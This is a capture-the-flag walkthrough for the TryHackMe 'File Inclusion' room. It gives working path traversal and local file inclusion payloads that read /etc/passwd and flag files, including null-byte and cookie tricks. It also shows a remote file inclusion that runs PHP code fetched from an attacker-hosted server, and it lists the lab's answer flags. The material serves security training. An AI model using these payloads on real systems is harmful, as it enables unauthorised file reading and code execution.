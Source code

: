 # Solution

## URL
- [File Inclusion](https://tryhackme.com/room/fileinc)

## Steps

### Task 3:
#### What function causes path traversal vulnerabilities in PHP?
1. The answer is `file_get_contents`.

### Task 4:
#### Give Lab #1 a try to read /etc/passwd. What would the request URI be?
1. In the lab, go to `Lab #1`.
2. In the text box enter `welcome.php` and submit.
3. The URL is `/lab1.php?file=welcome.php`.
4. If we change the value of `file` parameter to `/etc/passwd`, we will be able to see the contents of the file.
5. So, the request URI would be `/lab1.php?file=/etc/passwd`.

#### In Lab #2, what is the directory specified in the include function?
1. Go to `Lab #2`.
2. Enter `welcome.php` and submit.
3. The URL is `/lab2.php?file=welcome.php`.
4. If we change the value of `file` parameter to `/etc/passwd`, we will get an error:
`Warning: include(includes//etc/passwd) [function.include]: failed to open stream: No such file or directory in /var/www/html/lab2.php on line 26`
5. So the directory specified in the `include` function is `includes` as evident from the error message.
7. To exploit this, we will need to traverse to the root directory first: `/lab2.php?file=../../../../etc/passwd`.

### Task 5:
#### Give Lab #3 a try to read /etc/passwd. What is the request look like?
1. Go to `Lab #3`.
2. Enter a non existent value such as `gohan` and submit.
3. In the error we can see that it is inside `includes/` directory and `.php` has been appended to our string.
4. Also, the server path is disclosed `/var/www/html/lab3.php`.
5. Now if we try to traverse the path with `/lab3.php?file=../../../../etc/passwd`, there is still the `.php` we need to bypass.
6. Append NULL BYTE character `%00` to close the string and disregard the `.php` that was appended.
7. So the full URI would be: `/lab3.php?file=../../../../etc/passwd%00`.

#### Which function is causing the directory traversal in Lab #4?
1. Go to `Lab #4`.
2. Enter a non existent value such as `gohan` and submit.
3. The answer is in the error message: `file_get_contents`.

#### Try out Lab #6 and check what is the directory that has to be in the input field?
1. Go to `Lab #6`
2. Enter a non existent value such as `gohan` and submit.
3. The answer is in the error message: `THM-profile`.

#### Try out Lab #6 and read /etc/os-release. What is the VERSION_ID value?
1. So we need to add `THM-profile` in the path.
2. Let us first enter the valid file `THM-profile/tryhackme.txt`(given in placeholder of input box)
3. Now let us traverse the path after the `THM-profile` part, `THM-profile/../etc/os-release`.
4. We can see in the error message the full server path is `/var/www/html/lab6.php`, so will need to go back 4 directories.
5. So the full URI would be: `/lab6.php?file=THM-profile/../../../../etc/os-release`.
6. The value of `VERSION_ID` as seen in the file is `12.04`.

### Task 8:
#### Capture Flag1 at /etc/flag1
1. Go to `/challenges/chall1.php`.
2. It says that the form is broken and we need to send a `POST` requiest with `file` parameter.
3. Enter `welcome.php` and submit while capturing the request in burp.
4. Send the request to repeater.
5. Right click on the request > `Change request method`.
6. Now send the request, it will work as intended.
6. Change the value of file parameter to an unintended value such as `gohan`.
7. In the error message we can see that they are not prepending or appending anything, we also got the server path `/var/www/html/chall1.php`.
8. Change the value of file parameter to `/etc/flag1` for the flag `F1x3d-iNpu7-f0rrn`.

#### Capture Flag2 at /etc/flag2
1. Go to `/challenges/chall2.php`, we are greeted with the message: `Only admins can access this page!`.
2. If we open the cookies in `Application` tab in chrome dev tools, we can see a cookie named `THM` with value `Guest`.
3. Now change the value of that cookie to `Admin` and refresh the page for admin privileges.
4. We can now see an error message saying: `Warning: include(includes/Admin.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/chall2.php on line 37`.
5. So maybe it is using the value of the `THM` cookie?
6. Let's change the value to `../../../../etc/flag2` and refresh the page again.
7. Now the error is showing `include(includes/../../../../etc/flag2.php)`, so it is definitely using the value of the cookie. 
8. It is also appending `.php` to the cookie value, we can try to bypass that by appending the NULL BYTE character to our payload.
9. Change the cookie value to `../../../../etc/flag2%00` and refresh the page.
10. Found the flag: `c00k13_i5_yuMmy1`.

#### Capture Flag3 at /etc/flag3
1. Go to `/challenges/chall3.php`.
2. Enter `gohan` and submit for the error message: `Warning: include(gohan.php) [function.include]: failed to open stream: No such file or directory in /var/www/html/chall3.php on line 30`
3. In the error message we can see that the application is appending `.php` to the param value.
4. But if you notice it added another forward slash in the URI: `/challenges//chall3.php?file=gohan`
4. Try the payload: `/etc/flag3%00`, notice that it is stripping the forward slash, that explains that extra forward slash they added.
5. Try this payload: `jchdsd78346127.,\/.:"}{@*(@jksdghajk`.
6. In the error message we can see that they removed all special characters and numbers from the payload.
7. Change the request method to post and send the request, in this we can see nothing is being stripped out, so the application is probably using `$_REQUESTS`.
8. Try the payload: `/etc/flag3%00` for the flag: `P0st_1s_w0rk1in9`.

#### Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?
1. Go to `/playground.php`.
2. Enter `gohan` and send.
3. Create a directory and create a file `mouse.txt` with this text:
    ```
    <?php echo exec("hostname"); ?>
    ```
4. Run this command after `cd`ing into the new directory: `python3 -m http.server`
5. This will start a server on port `8000`.
6. Replace the value of `file` param with `http://<THM-VPN-IP>:8000/mouse.txt` and submit.
7. The flag: `lfi-vm-thm-f8c5b1a78692`.